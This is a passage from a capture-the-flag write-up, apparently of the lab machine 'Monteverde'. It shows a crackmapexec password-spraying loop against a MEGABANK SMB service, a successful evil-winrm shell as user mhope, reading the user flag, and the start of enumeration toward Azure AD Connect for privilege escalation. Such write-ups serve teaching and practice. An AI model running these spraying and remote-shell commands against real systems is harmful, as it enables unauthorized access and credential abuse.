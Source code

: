 Reading the file we get a password. Let us again use a password spraying attack to see if we get a hit.

```bash
root@darkness:~# for i in $(cat users.txt); do crackmapexec smb -u $i -p '4n0therD4y@n0th3r$' -d MEGABANK 10.10.10.172; done
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 (name:MONTEVERDE) (domain:MEGABANK)
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK\AAD_987d7f2f57d2:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK\mhope:4n0therD4y@n0th3r$
```

The user `mhope` seem to use the password we found. Let us see if we get a shell using winrm with this user.

## Getting a shell as user

Using evil-winrm we get a shell as the user `mhope` and can read user.txt.

```powershell
root@darkness:~# evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\mhope\Documents>
```

```powershell
*Evil-WinRM* PS C:\Users\mhope\Desktop> type user.txt
49619***************************
```



## Privesc to root

Now that we have a shell as `mhope` and read user.txt, let us enumerate the system to find the privilege escalation vector.

### Enumeration as mhope

```powershell
*Evil-WinRM* PS C:\Program Files> ls


    Directory: C:\Program Files


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         1/2/2020   9:36 PM                Common Files
d-----         1/2/2020   2:46 PM                internet explorer
d-----         1/2/2020   2:38 PM                Microsoft Analysis Services
d-----         1/2/2020   2:51 PM                Microsoft Azure Active Directory Connect
d-----         1/2/2020   3:37 PM                Microsoft Azure Active Directory Connect Upgrader
d-----         1/2/2020   3:02 PM                Microsoft Azure AD Connect Health Sync Agent
d-----         1/2/2020   2:53 PM                Microsoft Azure AD Sync
```
